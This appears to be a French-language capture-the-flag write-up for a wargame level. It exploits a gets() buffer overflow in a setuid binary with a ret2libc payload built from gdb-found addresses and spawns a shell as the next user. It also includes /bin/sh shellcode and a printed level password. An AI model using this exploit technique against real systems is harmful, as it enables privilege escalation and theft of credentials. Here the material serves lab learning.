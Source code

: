 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1004(level04) gid=1004(level04) groups=1004(level04),100(users)
/home/users/level04
total 17
dr-xr-x---+ 1 level04 level04   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level04 level04  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level04 level04 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level05 users   7797 Sep 10  2016 level04
-rw-r--r--+ 1 level04 level04   41 Oct 19  2016 .pass
-rw-r--r--  1 level04 level04  675 Sep 10  2016 .profile
```

Je trouve un binaire `level04`, que je tente d'éxecuter :

```bash
$ ./level04
Give me some shellcode, k
hiii
child is exiting...
```

J'essaye alors de lui donner le `shellcode` pour [/bin/sh](https://shell-storm.org/shellcode/files/shellcode-827.html) : 

```bash
$ ./level04
Give me some shellcode, k
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
child is exiting...
```

Sans succès, je décompile le binaire avec [Dogbolt](https://dogbolt.org/?id=d27e3b04-b575-4126-af26-7c135c61096e#Hex-Rays=166) :

```c
int main(int argc, const char **argv, const char **envp)
{
  int stat_loc;
  char buffer[128]; // <------------------------1 buffer declared being 128 bytes
  int ptrace_result;
  pid_t pid;

  pid = fork();

  memset(buffer, 0, sizeof(buffer));
  ptrace_result = 0;
  stat_loc = 0;

  if ( pid )
  {
    do
    {
      wait(&stat_loc);

      if ( (stat_loc & 0x7F) == 0 || (stat_loc, (char)((stat_loc & 0x7F) + 1) >> 1 > 0) )
      {
        puts("child is exiting...");
        return 0;
      }
      ptrace_result = ptrace(PTRACE_PEEKUSER, pid, 44, 0);
    }
    while ( ptrace_result != 11 );
    puts("no exec() for you");
    kill(pid, 9);
  }
  else
  {
    prctl(1, 1);
    ptrace(PTRACE_TRACEME, 0, 0, 0);
    puts("Give me some shellcode, k");
    gets(buffer); // <--------------------------2 write user input into buffer but no size check = overflow = Ret2Libc
  }
  return 0; // <--------------------------------3 Ret2Libc overwrites return address of main() to point to system("/bin/sh")
}
```

Je ne comprend pas grand chose à cette fonction, mais j'observe très rapidement la présence du vulnérable `gets()` qui écrit dans un buffer de taille 128, mais qui n'a pas de limite dans la taille d'écriture. Je peux donc, comme dans `Rainfall` et avec la vulnérabilité `Ret2Libc` des exercices précédents, ré-écrire sur l'adresse de `main()` afin de pointer vers `system()`, `exit()` (toujours optionel) et `/bin/sh`.

J'utilise `gdb` pour trouver ces adresses :

```h
$ gdb ./level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.

(gdb) b main
Breakpoint 1 at 0x80486cd

(gdb) r
Starting program: /home/users/level04/level04

Breakpoint 1, 0x080486cd in main ()

(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system <---------------------- ici
0xf7f48a50  svcerr_systemerr

(gdb) info function exit
All functions matching regular expression "exit":

Non-debugging symbols:
0xf7e5eb70  exit <------------------------ ici
0xf7e5eba0  on_exit
0xf7e5edb0  __cxa_atexit
0xf7e5ef50  quick_exit
0xf7e5ef80  __cxa_at_quick_exit
0xf7ee45c4  _exit
0xf7f27ec0  pthread_exit
0xf7f2d4f0  __cyg_profile_func_exit
0xf7f4bc30  svc_exit
0xf7f55d80  atexit

(gdb) info proc mappings
process 2492
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level04/level04
         0x8049000  0x804a000     0x1000        0x0 /home/users/level04/level04
         0x804a000  0x804b000     0x1000     0x1000 /home/users/level04/level04
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so <--- libc
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so <--- end
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, 0xf7fd0000, "/bin/sh"
0xf7f897ec <------------------------ ici
1 pattern found.
```

Comme au `level01`, je cherche le padding du payload en analysant `gdb` :

```h
$ gdb ./level04 -q
Reading symbols from /home/users/level04/level04...(no debugging symbols found)...done.
(gdb) disas main
Dump of assembler code for function main:
....
   0x08048819 <+337>:   nop
   0x0804881a <+338>:   mov    $0x0,%eax
   0x0804881f <+343>:   lea    -0x8(%ebp),%esp <--------- break here before stack cleanup
   0x08048822 <+346>:   pop    %ebx
   0x08048823 <+347>:   pop    %edi
   0x08048824 <+348>:   pop    %ebp
   0x08048825 <+349>:   ret
End of assembler dump.

(gdb) b *main+343
Breakpoint 1 at 0x804881f

(gdb) r
Starting program: /home/users/level04/level04
Give me some shellcode, k
dab
child is exiting...

Breakpoint 1, 0x0804881f in main ()
(gdb) info registers
...
esp            0xffffd660       0xffffd660
ebp            0xffffd718       0xffffd718
...
```

Je peux soustraire `esp` d'`ebp` : `0xffffd718 - 0xffffd660 = 184` bytes, auquel je soustrais le début de `buffer` dans le stack :

```h
   0x080486db <+19>:    mov    %eax,0xac(%esp)
   0x080486e2 <+26>:    lea    0x20(%esp),%ebx
   0x080486e6 <+30>:    mov    $0x0,%eax
```

Soit `184 - (0x20 ou 32) = 144` bytes.

Comme pour le `level01`, j'ajoute 8 bytes (4 pour écrire sur `ebp`, puis 4 pour écrire sur la `return address` de main).

Cela me donne un total de 152 bytes de padding. J'essaye le même payload que dans le `level01` : 

```bash
$ (python -c 'print("\x90" * 152 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
child is exiting...
whoami
$
```

Mais c'est sans succès. Je tente d'aligner sur 16 bytes comme précédamment :

```bash
$ (python -c 'print("\x90" * 160 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
whoami

^C
```

Sans succès également. En examinant l'ASM à nouveau, je me rend compte que contrairement au `level01`, il y a un call à `fork()` avant l'allocation du buffer, il est donc probable que l'adresse de retour de `fork()` ait été push dans la stack, et occupe donc 4 bytes supplémentaire.

Je tente avec 152 + 4 bytes :

```bash
$ (python -c 'print("\x90" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "\xf7\xe5\xeb\x70"[::-1] + "\xf7\xf8\x97\xec"[::-1])'; cat) | ./level04
Give me some shellcode, k
whoami
level05
cat /home/users/level05/.pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
^C
```
